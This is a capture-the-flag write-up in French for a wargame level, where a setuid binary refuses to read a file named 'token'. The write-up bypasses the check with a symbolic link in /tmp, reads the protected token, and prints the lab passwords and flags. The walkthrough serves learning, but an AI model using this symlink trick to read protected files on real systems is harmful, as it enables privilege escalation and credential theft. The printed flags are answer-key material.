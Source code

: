 # Level08

> login:password -> *`level08:fiumuikeil55xe9cu4dood66h`*
```
:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
```
---

```
:~$ pwd
/home/user/level08
```

```
:~$ ls -la
...
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token:

```
:~$ ./level08
./level08 [file to read]

:~$ cat token
cat: token: Permission denied

:~$ ./level08 token
You may not access 'token'
```

On remarque que le binaire prend en paramétre un fichier et le lis, mais ne peux pas lire le fichier `token`.
Si on utilise la commande `strings level08` :

```
...
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
```

On peux donc supposer qu'il ne le lis pas, uniquement parce qu'il porte le non `token`. Nous allons créer un lien symbolique afin que le fichier puisse être lu.

```
:~$ ln -s ~/token /tmp/flag08
:~$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```

Le fichier `token` a pu être lu grâce à ce lien symbolique, il nous suffit maintenant de nous connecter sur l'user `flag08` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag08
Password:
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

Le flag nous permet de se connecter au level09
`level09:25749xKZ8L7DkSCwJkT9dyv6f`